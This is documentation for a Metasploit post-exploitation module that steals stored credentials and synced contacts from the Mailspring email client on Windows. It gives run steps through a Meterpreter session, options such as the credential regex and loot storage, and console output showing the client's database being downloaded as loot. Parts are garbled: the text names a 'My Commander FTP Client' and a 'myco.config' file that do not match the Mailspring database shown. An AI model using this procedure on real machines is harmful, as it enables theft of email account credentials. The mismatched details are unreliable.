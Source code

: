 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Mailspring Client.

The My Commander FTP Client is avaialble from (https://www.getmailspring.com/).

This module extracts information from the myco.config file in the "AppData\Roaming\Mailspring" directory.

This module extracts sunced contacts.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/mailspring
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.


### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Mailspring Email Client v1.13.3 on Windows 10 Home 10.0.19045 N/A Build 19045 Default
```
msf6 post(windows/gather/credentials/mailspring) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Mailspring's Edgehill.db file found
[*] Downloading C:\Users\test\AppData\Roaming\Mailspring\edgehill.db
[*] Mailspring Edgehill.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510172752_default_10.0.0.2_Mailspringedgehi_920338.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510172754_default_10.0.0.2_EXTRACTIONSedgeh_471482.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### Mailspring Email Client v1.13.3 on Windows 10 Home 10.0.19045 N/A Build 19045 Verbose
```
msf6 post(windows/gather/credentials/mailspring) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Mailspring's base folder not found in users's user directory

[*] Starting Packrat...
[*] Mailspring's base folder found
[*] Found the folder containing specified artifact for edgehill.db.
[*] Mailspring's Edgehill.db file found
[*] Processing C:\Users\test\AppData\Roaming\Mailspring
[*] Downloading C:\Users\test\AppData\Roaming\Mailspring\edgehill.db
[*] Mailspring Edgehill.db downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240510172819_default_10.0.0.2_Mailspringedgehi_192292.db

[+] File with data saved:  /home/kali/.msf4/loot/20240510172821_default_10.0.0.2_EXTRACTIONSedgeh_731344.db
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

